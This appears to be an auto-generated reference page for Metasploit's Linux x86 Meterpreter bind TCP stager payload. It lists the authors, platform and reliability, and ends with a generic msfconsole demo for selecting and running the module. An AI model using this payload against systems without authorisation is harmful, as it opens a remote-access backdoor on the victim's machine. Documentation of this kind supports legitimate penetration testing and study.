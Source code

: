 ## Linux Meterpreter, Bind TCP Stager (Linux x86)

Inject the meterpreter server payload (staged). Listen for a 
connection (Linux x86)


## Module Name
payload/linux/x86/meterpreter/bind_tcp

## Authors
* PKS
* egypt
* OJ Reeves
* skape





## Platforms
* linux

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/linux/x86/meterpreter/bind_tcp
msf payload(bind_tcp) > show targets
   ... a list of targets ...
msf payload(bind_tcp) > set TARGET <target-id>
msf payload(bind_tcp) > show options
   ... show and set options ...
msf payload(bind_tcp) > run
```
    
    